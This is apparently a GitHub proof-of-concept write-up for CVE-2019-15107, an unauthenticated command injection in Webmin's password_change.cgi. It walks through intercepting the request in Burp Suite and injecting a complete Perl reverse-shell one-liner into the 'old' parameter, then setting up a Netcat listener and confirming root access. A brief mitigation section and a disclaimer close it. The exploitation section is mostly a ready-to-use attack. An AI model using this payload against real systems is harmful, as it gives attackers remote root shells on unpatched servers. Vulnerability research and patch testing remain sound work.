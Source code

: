 # Proof of Concept: CVE-2019-15107 - Webmin Remote Code Execution (RCE)

## Overview

This Proof of Concept (PoC) demonstrates the exploitation of a critical vulnerability in Webmin (versions 1.882 to 1.921), identified as **CVE-2019-15107**. The vulnerability allows an unauthenticated remote attacker to execute arbitrary commands on the target system due to improper input validation in the **password_change.cgi** script.

- **CVE**: [CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)
- **Severity**: Critical
- **Platform**: Linux/Unix
- **Vulnerability Type**: Remote Code Execution (RCE)
- **Affected Versions**: Webmin 1.882 to 1.921
- **Patched Version**: Webmin 1.930

## Vulnerability Details

The vulnerability exists in the `password_change.cgi` script, where improper sanitization of the `old` parameter allows an attacker to inject arbitrary commands using the vertical bar (`|`) character, leading to remote command execution.

## Exploitation

### Tools Required:
- Burp Suite or another HTTP interceptor
- Netcat for reverse shell listener

### Steps to Exploit:

1. **Intercept the Request**: 
   Use Burp Suite to intercept the HTTP request made to the `password_change.cgi` script when attempting to change a password on the Webmin server.

2. **Modify the `old` Parameter**: 
   Inject a malicious payload into the `old` parameter of the intercepted request. For this PoC, we will inject a reverse shell payload:

  ```bash
   old=some_password|perl -e 'use Socket;$i="192.168.1.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ```

3. **Send the Modified Request**: 
   Send the HTTP request with the malicious payload to the Webmin server via Burp Suite.

   **Burp Suite Command Injection Example:**
   
   ![Burp Suite Command Injection](https://github.com/AhsanA3/Cybersecurity-Technical-Writing/blob/main/Proof%20of%20Concept%20(PoC)/CVE-2019-15107%20-%20Webmin%20Remote%20Code%20Execution%20(RCE)/Burp%20Suite%20Command%20Injection.jpg)

4. **Set Up a Netcat Listener**: 
   Before sending the payload, set up a Netcat listener on your machine to catch the reverse shell connection. Run the following command on your attacker machine:

```bash   
nc -lvnp 443
```

5. **Receive the Reverse Shell**: 
   After sending the modified request, if the exploit is successful, you should receive a reverse shell connection on your Netcat listener, granting you root-level access to the Webmin server.

   **Reverse Shell with Root Example:**
   
   ![Reverse Shell with Root](https://github.com/AhsanA3/Cybersecurity-Technical-Writing/blob/main/Proof%20of%20Concept%20(PoC)/CVE-2019-15107%20-%20Webmin%20Remote%20Code%20Execution%20(RCE)/Reverse%20Shell%20with%20Root%20Example.jpg)

## Proof of Exploit

Once the reverse shell is established, you can verify the success of the exploit by running the following command on the compromised system:

```bash
id
```
Expected output:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

This confirms that you have successfully gained root privileges on the target machine.

## Mitigation

To mitigate this vulnerability, users should immediately update to Webmin version **1.930**, where this issue has been patched. In addition, the following steps can further secure Webmin installations:

- Enforce strict input validation and sanitization on all user inputs to prevent command injection.
- Ensure Webmin is not exposed to the public internet or is protected by strong network security measures such as a firewall or VPN.
- Regularly update Webmin and apply security patches promptly.

## References

- [CVE-2019-15107 on Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)
- [Webmin Release Notes](http://www.webmin.com/changes.html)
- [Exploit-DB Entry](https://www.exploit-db.com/exploits/47293)

---

**Disclaimer**: This PoC is intended for educational and research purposes only.

